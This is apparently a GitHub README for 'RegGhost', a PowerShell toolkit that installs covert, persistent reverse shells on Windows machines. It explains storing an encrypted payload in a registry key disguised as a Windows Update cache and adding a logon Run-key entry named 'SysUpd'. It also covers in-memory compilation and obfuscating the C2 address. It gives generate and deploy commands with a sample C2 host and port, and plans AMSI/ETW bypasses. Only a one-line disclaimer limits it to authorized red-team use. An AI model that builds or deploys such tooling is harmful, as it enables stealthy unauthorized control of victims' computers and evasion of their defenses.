

# RegGhost



RegGhost is a compact, two-stage PowerShell toolkit for stealthy, machine-bound reverse shells on Windows. It uses BIOS-derived XOR encryption, in-memory C# compilation, and registry-based persistence—leaving no payload files on disk.

---

## 🛠️ Features

1. **Two-Stage Architecture**

   * **Setup Stage** (`smaller_setup.ps1`)

     * Reads a Base64-encoded C# payload (with injected, obfuscated C2 host/port).
     * XOR-encrypts the payload using the BIOS serial (via `(Get-WmiObject Win32_BIOS).SerialNumber.Trim()`).
     * Stores ciphertext under `HKCU:\Software\WindowsUpdate\DataCache`.
     * Creates a `Run`-key entry (`SysUpd`) that launches an encoded PowerShell stub at logon—no `.ps1` files remain on disk.
   * **Execution Stage** (`small_execute.ps1`)

     * Retrieves and decrypts the registry blob in memory.
     * Compiles the C# source via `Add-Type -TypeDefinition`.
     * Executes the auto-detected payload class (`<YourClass>::Start()`) in a persistent reverse-shell loop.

2. **Host & Port Obfuscation**

   * Host segments and port are Base64-encoded and reconstructed at runtime, hiding cleartext networking details in the script.

3. **Machine-Bound Encryption**

   * Encryption key derived from BIOS serial number ensures the payload only runs on the target host.

4. **Minimal Footprint**

   * No additional binaries or files on disk beyond the one-line setup stub.
   * Outputs organized into randomly named phonetic folders (Alpha, Bravo, Charlie, etc.).

---

## 📂 Components

* **`smaller_setup.ps1`**

  * One-liner that encrypts and stores the C# payload in the registry and sets up persistence.

* **`small_execute.ps1`**

  * One-liner that decrypts, compiles, and launches the reverse-shell in memory.

* **`generate_shell.py`**

  * Python CLI for host/port injection, obfuscation, and registry integration.
  * Usage:

    ```bash
    python generate_shell.py -H <C2_IP> -P <PORT> [-f <payload.cs>]
    ```
  * Creates a new `<PhoneticName>/` folder containing both PS1 scripts.

---

## ⚙️ Usage

1. **Generate Payload**

   ```bash
   python generate_shell.py -H 10.10.14.1 -P 4444
   ```

   * Reads `payload.cs`, injects and obfuscates host/port, encrypts payload, and writes `smaller_setup.ps1` and `small_execute.ps1` into a new folder.

2. **Deploy on Target**

   ```powershell
   .\Alpha\smaller_setup.ps1
   ```

   * Installs encrypted payload and persistence via registry—no scripts left on disk.

3. **Automatic Execution**

   * On the next user logon, the Run-key stub runs, decrypts payload in memory, and establishes the reverse shell.

4. **Manual Testing**

   ```powershell
   .\Alpha\small_execute.ps1
   ```

   * Runs the decrypted payload immediately (useful for staging or validation).

---

## 🚧 Limitations & Roadmap

* **Encryption Strength**: Swap XOR for AES-CBC with a random IV for improved confidentiality.
* **Fallback Persistence**: Add Scheduled Tasks or WMI Event Subscription options if Run-key is unavailable.
* **Evasion Techniques**: Integrate AMSI/ETW bypass or further code obfuscation (e.g., `Invoke-Obfuscation`).
* **Logging & Debugging**: Implement silent error logging to the Event Log or hidden file for reliability.

---

## 📄 License

This project is licensed under the MIT License. See [LICENSE.md](LICENSE.md) for details.

---

*⚠️ For educational and authorized red-team use only.*
